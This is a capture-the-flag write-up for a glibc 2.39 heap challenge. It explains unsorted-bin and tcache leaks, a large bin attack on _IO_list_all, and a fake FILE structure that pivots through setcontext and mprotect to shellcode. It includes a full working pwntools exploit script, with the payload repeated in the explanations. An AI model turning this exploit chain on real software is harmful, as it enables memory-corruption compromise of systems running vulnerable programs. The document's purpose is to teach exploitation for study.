# Large Bin Attack

we are given a binary file that uses the glibc 2.39



- there is a seccomp that prevenets us from reading or writing anywhere outside the heap.

- we are given four options :

```py
from pwn import *

BIN  = "./main_patched"
LIBC = "./libc.so.6"

context.binary = BIN
context.arch   = "amd64"
context.terminal = ["tmux", "splitw", "-h"]
# context.log_level = "debug"
p    = process(BIN)
libc = ELF(LIBC)

def create(idx, size):
    p.sendline(b"1"); p.recvuntil(b": \n"); p.sendline(str(idx).encode())
    p.recvuntil(b": \n"); p.sendline(str(size).encode())
    p.recvuntil(b"choose? \n")

def edit(idx, data):
    p.sendline(b"2"); p.recvuntil(b": \n"); p.sendline(str(idx).encode())
    p.recvuntil(b": \n"); p.send(data)
    p.recvuntil(b"choose? \n")

def delete(idx):
    p.sendline(b"3"); p.recvuntil(b": \n"); p.sendline(str(idx).encode())
    p.recvuntil(b"choose? \n")

def show(idx):
    p.sendline(b"4"); p.recvuntil(b": \n"); p.sendline(str(idx).encode())
    leak = p.recvn(8)
    p.recvuntil(b"choose? \n")
    return leak


p.recvuntil(b"choose? \n")
```

- we have create, edit, delete and show functions for chunks allocated on the heap.
- we can use exit by using option `1` and then any digit above `20`. to induce an exit.

- glibc 2.39 so no __free_hook or __malloc_hook so FSOP again im guessing.

- like last challenge we cant easily leak libc pointer since we have a seccomp which prevents reading or writing outside the heap.

- after a bit of research online i learnt about something called the unsorted bin attack.
- we can use this to leak a libc pointer.

**To solve this challenge we will use UNSORTED bin leak -> tcahce heap leak -> large bin attack -> Fake FILE on the heap whicch IO_list_all points to -> induce exit and then use setcontext to use mprotect to make heap executable and stack pivot to ROP on heap then ROP to the shellcode on the heap.**

- ill explain each attack in extreme detail for learning purposes.

## Solve script :
```py
from pwn import *

BIN  = "./main_patched"
LIBC = "./libc.so.6"

context.binary = BIN
context.arch   = "amd64"
context.terminal = ["tmux", "splitw", "-h"]
# context.log_level = "debug"
p    = process(BIN)
libc = ELF(LIBC)

def create(idx, size):
    p.sendline(b"1"); p.recvuntil(b": \n"); p.sendline(str(idx).encode())
    p.recvuntil(b": \n"); p.sendline(str(size).encode())
    p.recvuntil(b"choose? \n")

def edit(idx, data):
    p.sendline(b"2"); p.recvuntil(b": \n"); p.sendline(str(idx).encode())
    p.recvuntil(b": \n"); p.send(data)
    p.recvuntil(b"choose? \n")

def delete(idx):
    p.sendline(b"3"); p.recvuntil(b": \n"); p.sendline(str(idx).encode())
    p.recvuntil(b"choose? \n")

def show(idx):
    p.sendline(b"4"); p.recvuntil(b": \n"); p.sendline(str(idx).encode())
    leak = p.recvn(8)
    p.recvuntil(b"choose? \n")
    return leak


p.recvuntil(b"choose? \n")

for i in range(5): create(i, 1500)
delete(2)
libc.address = u64(show(2)) - 0x203b20
log.success(f"Libc Base: {hex(libc.address)}")
create(2, 1500)

create(5, 0x58)
delete(5)
heap_leak = u64(show(5).ljust(8, b"\x00"))
demangled = heap_leak << 12
log.success(f"Demangled ptr: {hex(demangled)}")
heap_base = (heap_leak << 12) & ~0xfff
log.success(f"Heap Base: {hex(heap_base)}")

for i in range(6, 13): create(i, 0x428); delete(i)
for i in range(13, 20): create(i, 0x418); delete(i)

create(6, 0x428)
create(7, 0x18)
create(8, 0x900)
create(9, 0x418)
create(10, 0x18)
chunk9_user = heap_base + 0x60c0


wide_data_struct = chunk9_user + 0x100
wide_vtable_ptr  = chunk9_user + 0x1f8
fake_rsp         = chunk9_user + 0x2b0  # Location of Stack Pivot


setcontext   = libc.sym['setcontext'] + 61
print("context set to:", hex(setcontext))

mprotect     = libc.sym['mprotect']
print("mprotect at:", hex(mprotect))

pop_rdi      = libc.address + 0x10f75b
rdx_gadget   = libc.address + 0x1303d5 # mov rdx, rax; call [rbx+0x28]
# rbx is chunk9_user - 0x10

# so to call setcontext we need to do 0x18 instead of 0x28 which also happens to be _IO_write_ptr which makes io_write_ptr > io_write_base 


shellcode_off = 0x2d0  
flag_str_off  = 0x380  
read_buf_off  = 0x390  

shellcode_loc = chunk9_user + shellcode_off
flag_str_loc  = chunk9_user + flag_str_off
read_buf_loc  = chunk9_user + read_buf_off


fsop_payload = flat({
    
0x10: 0,                         # _IO_write_base
0x18: setcontext,                # _IO_write_ptr 
0x78: chunk9_user,               # _lock 
0x90: wide_data_struct,          # _wide_data pointer
0xb0: p32(0),                    # _mode
0xc8: libc.sym['_IO_wfile_jumps'], # vtable

  
0x118: 0,                        # _IO_write_base
0x120: 1,                        # _IO_write_ptr
0x130: 0,                        # _IO_buf_base
0x1e0: wide_vtable_ptr,          # _wide_vtable pointer

   
    # RDI, RSI, RDX setup for mprotect call
0x1f8 + 0x60: 0,                 # R15
0x1f8 + 0x68: rdx_gadget,        # RDI
    
    
0x1f8 + 0x70: 0x10000,           
    
0x1f8 + 0x78: 0,                 # RBP
0x1f8 + 0x80: 0,                 # RBX 
0x1f8 + 0x88: 7,                 # RDX 
0x1f8 + 0xA0: fake_rsp,          # RSP Stack Pivot to heap
0x1f8 + 0xA8: pop_rdi,           # RCX ( pop rdi; ret) # in setcontext rcx is pushed

0x2b0: [heap_base, mprotect, shellcode_loc],
    
    
shellcode_off: asm(shellcraft.cat("./flag")),               # Shellcode at 0x2d0
           
    
}, filler=b"\x00")


log.info(f"Sending FSOP Payload (Size: {hex(len(fsop_payload))})")
log.info(f"Shellcode Location: {hex(shellcode_loc)}")


edit(9, fsop_payload)

delete(6); create(11, 0x900); delete(9)
print("libc sym['_IO_list_all']:",)
print(hex(libc.sym['_IO_list_all']))
edit(6, flat({ 0x18: libc.sym['_IO_list_all'] - 0x20 }, filler=b"\x00"))
create(12, 0x438)


wdoalloc_addr = libc.sym['_IO_wdoallocbuf']
log.info(f"wdoallocbuf address: {hex(wdoalloc_addr)}")
# pause()
# gdb.attach(p)

p.interactive()

# chunk9_user - 0x10 = FILE base
# chunk9_user        = FILE + 0x10
```
# heap and Bins
the heap is divided into different bins based on the size of the chunks by the heap manager ptmalloc.

These are the bins and there are 5 type of bins: 62 small bins, 63 large bins, 1 unsorted bin, 10 fast bins and 64 tcache bins per thread.

## Unsorted Bin
source : https://blog.1nf1n1ty.team/hacktricks/binary-exploitation/libc-heap/bins-and-memory-allocations

when we free a chunk, if it isnt possible to put it in the fastbin or tcache and it isnt coalescing with the top chunk, the heap manager doesn't immediately put it in a specific small or large bin. Instead, it first tries to merge it with any neighbouring free chunks to create a larger block of free memory. Then, it places this new chunk in a general bin called the "unsorted bin."

When a program asks for memory, the heap manager checks the unsorted bin to see if there's a chunk of enough size. If it finds one, it uses it right away. If it doesn't find a suitable chunk in the unsorted bin, it moves all the chunks in this list to their corresponding bins, either small or large, based on their size.


### example to add an unsorted bin,

```c
#include <stdlib.h>
#include <stdio.h>

int main(void) 
{
  char *chunks[9]; 
  int i;

  // Loop to allocate memory 8 times
  for (i = 0; i < 9; i++) {
    chunks[i] = malloc(0x100);
    if (chunks[i] == NULL) { // Check if malloc failed
      fprintf(stderr, "Memory allocation failed at iteration %d\n", i);
      return 1;
    }
    printf("Address of chunk %d: %p\n", i, (void *)chunks[i]);
  }

  // Loop to free the allocated memory
  for (i = 0; i < 8; i++) {
    free(chunks[i]);
  }

  return 0;
}

```
- but we can add the chunk into the unsorted even if there are other bins available by freeing a large chunk that cannot fit into small or large bins so there is no need to fill tcache or fastbins.
which is what i did in the solve script by making 5 chunks of size 1500 and freeing index 2 to prevent top chunk coalescing and we can use `unsortedbin` in gdb to check if our chunk is in unsorted bin. the free is mostly deterministic so if we free the same chunk it will go to the same bin everytime.

### structure of the unsorted bin 

the unsorted bin is a doubly linked list where each chunk has two pointers: `fd` (forward) and `bk` (backward). These pointers link to the next and previous chunks in the unsorted bin, allowing for efficient traversal and management of free memory chunks.

When a chunk is freed and added to the unsorted bin, its `fd` pointer points to the next chunk in the list, and its `bk` pointer points to the previous chunk. If the chunk is the only one in the unsorted bin, both pointers will point to itself, creating a circular reference.

The chunks in the unsorted bin are going to have pointers. The first chunk in the unsorted bin will actually have the fd and the bk links pointing to a part of the main arena (Glibc).
Therefore, if you can put a chunk inside a unsorted bin and read it (use after free) or allocate it again without overwriting at least 1 of the pointers to then read it, you can have a Glibc info leak.
in the solve script we use the show function to leak the fd pointer of the unsorted bin chunk which points to main_arena + 96 which we can use to calculate libc base.

here, we have two chunks in the unsorted bin so fd points to the next chunk in the unsorted bin and bk points to the main_arena + 96. but what if there is only one chunk in the unsorted bin. then both fd and bk will point to main_arena + 96. which is exactly what we use to get the leak. 


### UNSORTED BIN libc leak

- implementing this in our binary and looking at it in gdb

since both fd and bk point to main_arena + 96 we can use either pointer to leak libc address.
and thats what i do in the main script.

## tcache heap leak

- now to truly beeat ASLR and PIE we need a heap pointer leak. for that we will use a tcache poisoning attack to get a heap leak.

### understand tcache
Therefore, a tcache is similar to a fast bin per thread in the way that it's a single linked list that doesn't merge chunks. Each thread has 64 singly-linked tcache bins. Each bin can have a maximum of 7 same-size chunks ranging from 24 to 1032B on 64-bit systems and 12 to 516B on 32-bit systems.

Each thread gets its own TCACHE, hence the name “Thread-Local Cache”. It is used for quick allocation and deallocation of heap chunks during program execution. On a 64-bit system, the TCACHE is used for allocation sizes between the sizes of 16 bytes and 1024 bytes (excluding metadata) incrementing in 16-byte chunks (the minimum difference in allocation sizes). This leads a total of 64 TCACHE bins per program thread.
source - https://www.secquest.co.uk/white-papers/tcache-heap-exploitation


so each tcahce chunk has a `fd` pointer which points to the next chunk in the tcache bin. this is called metadata of the chunk and it is at the start of the chunk. 

so when we free a chunk into the tcahce bin and use our read primitive to read the chunk we get the fd pointer which points to the next chunk in the tcache bin. since the tcache bin is per thread we can use this pointer to calculate the heap base.

- remmember sometimes the chunks can go into the fastbin depending on the size and its best to check in gdb using `tcache bins` command to see if our chunk is in tcache or fastbin. and getting a leak from the fastbin idk yet.

- also the fd pointers are mangled using the heap base when we free into the tcache bin, this is called safe-linking.

- safe link formula

```
fd_mangled = fd ^ (chunk_addr >> 12)
```

- so if our chunk is the first chunk the tcache bin fd will be null so the fd pointer will be `0 ^ (chunk_addr >> 12) = chunk_addr >> 12`
so we use this in our script to get the mangled fd ptr and then demangle to get the heap address and also base.

- **remmemmber** demangled pointers always end with `0` since theyre page aligned.

```py
create(5, 0x58)
delete(5)
heap_leak = u64(show(5).ljust(8, b"\x00"))
demangled = heap_leak << 12
log.success(f"Demangled ptr: {hex(demangled)}")
heap_base = (heap_leak << 12) & ~0xfff
log.success(f"Heap Base: {hex(heap_base)}")
```





# next steps

- Now that we have the heap base and the libc base we can move on to the next step which is to perform a large bin attack to overwrite the `IO_list_all` pointer to point to our fake FILE structure on the heap.

# Large Bin attack

source - https://4xura.com/binex/large-bin-attack/

## what is a large-bin?


- the large bin has two more pointers called `fd_nextsize` and `bk_nextsize` which are used to maintain a sorted list of chunks based on their size. this is used to quickly find a chunk of a specific size when allocating memory.


In 64-bit system, the large bins store free'd chunks over size 0x400. Each large bin is a double linked list storing different sizes of chunks in a certain range:

```
Group-------Amount--------Offset
1-----------32------------64(0x40)
2-----------16------------512(0x200)
3-----------8-------------4096(0x1000)
4-----------4-------------32768(0x8000)
5-----------2-------------262144(0x40000)
6-----------1-------------unlimited
```


- fd_nextsize points to its next smaller chunk, bk_nextsize points to its larger chunk.
- And the fd, bk pointers points to the same-size chunks following by the inserted time sequence.
- for the same–size list, only the first inserted chunk of the specific size owns the fd_nextsize and bk_nextsize pointers.
- The bk_nextsize of largest chunk points to the smallest one in the bin list; and the fd_nextsize of smallest chunk points to the largest one.

- fd_nextsize points to its next smaller chunk, bd_nextsize points to its larger chunk. And the fd, bk pointers points to the same-size chunks following by the inserted time sequence.


The attack happens in the process when a chunk is inserted into large bin, which triggers unlink action and changes pointers inside relevant chunks.

When the chunk is being inserted into large bin, the heap manager traverses the large bin list to find the appropriate position for the new chunk based on its size. During this traversal, it compares the size of the new chunk with the sizes of existing chunks in the bin.

- what we are doing here basically is  `victim->bk_nextsize->fd_nextsize = victim;`

- so if we can induce - `p1->bk_nextsize = TARGET - 0x20`, this basically writes our heap address into the target address.

- to trigger this, we need some conditions :

    - most primitively we need two chunks in large bin of two sizes
    - 2nd inserted chunk shld be smaller than the 1st inserted chunk
    - we must have a write primitive on the heap.

- in our challenge we have the write primitive but to induce a large bin attack we need to do some heap feng shui to get two chunks in the large bin of different sizes.

- so lets say we have p1 (large chunk 1) and p2 (large chunk 2) where p2 is smaller than p1.
- we free chunks carefully so that at the end we have 2 chunks p1 and p2 in the large bin of different sizes.
- this lets  us write the address of p2 into any arbitrary address - 0x20.

```py
for i in range(6, 13): create(i, 0x428); delete(i)
for i in range(13, 20): create(i, 0x418); delete(i)

create(6, 0x428)
create(7, 0x18)
create(8, 0x900)
create(9, 0x418)
create(10, 0x18)
```
- heap feng shui by trial and error so that we get exactly idx 6 and 9 in large bin of different sizes.

- then we write our Fake FILE into chunk 9 using our write primitive.

- we will talk about our fake FILE later.

```py
delete(6); create(11, 0x900); delete(9)
print("libc sym['_IO_list_all']:",)
print(hex(libc.sym['_IO_list_all']))
edit(6, flat({ 0x18: libc.sym['_IO_list_all'] - 0x20 }, filler=b"\x00"))
create(12, 0x438)

```

- RN we have chunk 6 and chunk 9 in large bin of different sizes.
- so when we write into chunk 6 at offset 0x18 we are writing into chunk 9's bk_nextsize pointer.
- so we write `libc.sym['_IO_list_all'] - 0x20` into chunk 9's bk_nextsize pointer.
- then when we allocate chunk 12 of size 0x438 it triggers the large bin attack and writes our heap address into `IO_list_all`.


### Going more in detail about Large bin attack

- in the first to loop create deletes, puts chunks into the large bin.
- next we do 
```py
create(6, 0x428)
create(7, 0x18)
create(8, 0x900)
create(9, 0x418)
create(10, 0x18)

delete(6); create(11, 0x900); delete(9)
print("libc sym['_IO_list_all']:",)
print(hex(libc.sym['_IO_list_all']))
edit(6, flat({ 0x18: libc.sym['_IO_list_all'] - 0x20 }, filler=b"\x00"))
create(12, 0x438)


```

- when we delete 6, chunk 6 goes into the unsorted bin first.
- when we create 11 of size 0x900, so heap manager looks into unsorted bin and finds chunk 6 which is of size 0x428 which is less than 0x900 so it moves chunk 6 into the large bin and allocates a new chunk of size 0x900 at index 11.
- now chunk 6 is in the large bin.
- next we delete 9, so chunk 9 goes into the unsorted bin first.
- now chunk 6 is in the large bin and chunk 9 is in the unsorted


- NEXT : we edit bk_nextsize of chunk6 to point to `IO_list_all - 0x20`

- We want the final write to land on _IO_list_all. Since the math does addr + 0x20, we subtract 0x20 here

### CREATE(12, 0x438)

- this is what triggers the lba.

how?

 - ptmalloc checks the unsorted bin for a suitable chunk.
    - it finds chunk 9 of size 0x418 which is less than 0x438 so it moves chunk 9 into the large bin.

- glibc compares chunk 9 size with chunk 6 size and finds chunk 9 < chunk 6 so it tries to insert chunk 9 before chunk 6 in the large bin.

- which triggers the smaller chunk than smallest condition.

- 4xura's blog code snippet for smaller chunk than smallest condition :

```c
// victim = Chunk 9
// fwd    = Chunk 6


victim->bk_nextsize = fwd->fd->bk_nextsize; 

victim->bk_nextsize->fd_nextsize = victim;
```

#### Explanation

- so chunk9->bk_nextsize = chunk6->fd->bk_nextsize
- chunk6->fd is chunk6 itself.
- recall that fd and bk pointers point to same size chunks in time sequence.
- since chunk6 is the only chunk of size 0x428 in the large bin, both fd and bk pointers point to itself.
- so chunk->fd = chunk6
- now we can rewrite `victim->bk_nextsize = fwd->fd->bk_nextsize;` as

```
chunk9->bk_nextsize = chunk6->bk_nextsize
```
- recall that we overwrote chunk6->bk_nextsize to point to `IO_list_all - 0x20`

- so `chunk9->bk_nextsize = IO_list_all - 0x20`

now we look at this `victim->bk_nextsize->fd_nextsize = victim;`

- `chunk9->bk_nextsize->fd_nextsize = chunk 9` on rewriting.

- `IO_list_all - 0x20->fd_nextsize = chunk9`


- accessing ->fd_nextsize is same as adding 0x20 to the address and dereferencing it.

- so `IO_list_all->fd_nextsize = chunk9`

# IO_list_all->fd_nextsize = chunk9

- this is the write we wanted to do. lets test it in gdb.



- we successfully overwrote `IO_list_all` to point to our fake FILE structure on the heap but we need to place our payload -0x10 from the given offsets due to the chunk header.

- but we can only write from after chunk9+0x10 since the first 0x10 bytes are chunk metadata but glibc reads from chunk9 itself.


# Fake FILE structure -> ROP -> Shellcode

- writing a FILE is standard hijacking the wd vtable.

```py
chunk9_user = heap_base + 0x60c0


wide_data_struct = chunk9_user + 0x100
wide_vtable_ptr  = chunk9_user + 0x1f8
fake_rsp         = chunk9_user + 0x2b0  # Location of Stack Pivot


setcontext   = libc.sym['setcontext'] + 61
print("context set to:", hex(setcontext))

mprotect     = libc.sym['mprotect']
print("mprotect at:", hex(mprotect))

pop_rdi      = libc.address + 0x10f75b
rdx_gadget   = libc.address + 0x1303d5 # mov rdx, rax; call [rbx+0x28]
# rbx is chunk9_user - 0x10

# so to call setcontext we need to do 0x18 instead of 0x28 which also happens to be _IO_write_ptr which makes io_write_ptr > io_write_base 


shellcode_off = 0x2d0  
flag_str_off  = 0x380  
read_buf_off  = 0x390  

shellcode_loc = chunk9_user + shellcode_off
flag_str_loc  = chunk9_user + flag_str_off
read_buf_loc  = chunk9_user + read_buf_off


fsop_payload = flat({
    
0x10: 0,                         # _IO_write_base
0x18: setcontext,                # _IO_write_ptr 
0x78: chunk9_user,               # _lock 
0x90: wide_data_struct,          # _wide_data pointer
0xb0: p32(0),                    # _mode
0xc8: libc.sym['_IO_wfile_jumps'], # vtable

  
0x118: 0,                        # _IO_write_base
0x120: 1,                        # _IO_write_ptr
0x130: 0,                        # _IO_buf_base
0x1e0: wide_vtable_ptr,          # _wide_vtable pointer

   
    # RDI, RSI, RDX setup for mprotect call
0x1f8 + 0x60: 0,                 # R15
0x1f8 + 0x68: rdx_gadget,        # RDI
    
    
0x1f8 + 0x70: 0x10000,           
    
0x1f8 + 0x78: 0,                 # RBP
0x1f8 + 0x80: 0,                 # RBX 
0x1f8 + 0x88: 7,                 # RDX 
0x1f8 + 0xA0: fake_rsp,          # RSP Stack Pivot to heap
0x1f8 + 0xA8: pop_rdi,           # RCX ( pop rdi; ret) # in setcontext rcx is pushed

0x2b0: [heap_base, mprotect, shellcode_loc],
    
    
shellcode_off: asm(shellcraft.cat("./flag")),               # Shellcode at 0x2d0
           
    
}, filler=b"\x00")

```

```c


struct _IO_FILE {
    int _flags;                     // 4 bytes
    char *_IO_read_ptr;             // 8 bytes (pointer)
    char *_IO_read_end;             // 8 bytes (pointer)
    char *_IO_read_base;            // 8 bytes (pointer)
    char *_IO_write_base;           // 8 bytes (pointer)
    char *_IO_write_ptr;            // 8 bytes (pointer)
    char *_IO_write_end;            // 8 bytes (pointer)
    char *_IO_buf_base;             // 8 bytes (pointer)
    char *_IO_buf_end;              // 8 bytes (pointer)
    char *_IO_save_base;            // 8 bytes (pointer)
    char *_IO_backup_base;          // 8 bytes (pointer)
    char *_IO_save_end;             // 8 bytes (pointer)
    struct _IO_marker *_markers;    // 8 bytes (pointer)
    struct _IO_FILE *_chain;        // 8 bytes (pointer)
    int _fileno;                    // 4 bytes
    int _flags2;                    // 4 bytes
    __off_t _old_offset;            // 8 bytes
    unsigned short _cur_column;     // 2 bytes
    signed char _vtable_offset;     // 1 byte
    char _shortbuf[1];              // 1 byte
    _IO_lock_t *_lock;              // 8 bytes (pointer)
    __off64_t _offset;              // 8 bytes
    struct _IO_codecvt *_codecvt;   // 8 bytes (pointer)
    struct _IO_wide_data *_wide_data;  // 8 bytes (pointer)
    struct _IO_FILE *_freeres_list; // 8 bytes (pointer)
    void *_freeres_buf;             // 8 bytes (pointer)
    size_t __pad5;                  // 8 bytes
    int _mode;                      // 4 bytes
    char _unused2[20];              // 20 bytes
};
```

- we just need to make sure that io_write_ptr > io_write_base to trigger the vtable call.
- mode 0 for file check 1 for wide file check
- lock pointer to a valid address on the heap
- wide_data pointer to our wide data structure on the heap
- vtable pointer to _IO_wfile_jumps in libc
---
```c

struct _IO_wide_data {
    wchar_t *_IO_read_ptr;       // Offset: 0x00, Size: 0x08
    wchar_t *_IO_read_end;       // Offset: 0x08, Size: 0x08
    wchar_t *_IO_read_base;      // Offset: 0x10, Size: 0x08
    wchar_t *_IO_write_base;     // Offset: 0x18, Size: 0x08
    wchar_t *_IO_write_ptr;      // Offset: 0x20, Size: 0x08
    wchar_t *_IO_write_end;      // Offset: 0x28, Size: 0x08
    wchar_t *_IO_buf_base;       // Offset: 0x30, Size: 0x08
    wchar_t *_IO_buf_end;        // Offset: 0x38, Size: 0x08
    wchar_t *_IO_save_base;      // Offset: 0x40, Size: 0x08
    wchar_t *_IO_backup_base;    // Offset: 0x48, Size: 0x08
    wchar_t *_IO_save_end;       // Offset: 0x50, Size: 0x08
    __mbstate_t _IO_state;       // Offset: 0x58, Size: 0x08
    __mbstate_t _IO_last_state;  // Offset: 0x60, Size: 0x08
    struct _IO_codecvt {         // Offset: 0x68, Size: 0x70 (112 bytes)
        _IO_iconv_t __cd_in;     // Offset: 0x68, Size: 0x38 (56 bytes)
        _IO_iconv_t __cd_out;    // Offset: 0xA0, Size: 0x38 (56 bytes)
    } _codecvt;                  // Total size: 0x70 (112 bytes)
    wchar_t _shortbuf[1];        // Offset: 0xD8, Size: 0x04
    /* Hole: 4 bytes */          // Offset: 0xDC (4-byte padding)
    const struct _IO_jump_t *_wide_vtable;  // Offset: 0xE0, Size: 0x08
    /* Total size: 0xE8 (232 bytes) */
};
```

- struct _io_jump_t is a stuct which has a *_wide_vtable member which we will point to the jump table for wide table
---



- from this img we can see 0x1f8 + 0x68  = doallocate which we will overwrite to point to a gadget it in libc which does `mov rdx, rax; call qword ptr [rbx + 0x28]`

- so when we trigger the exit call, wdallocbuf is called first and lets put a break pt there and see what our gadget does.

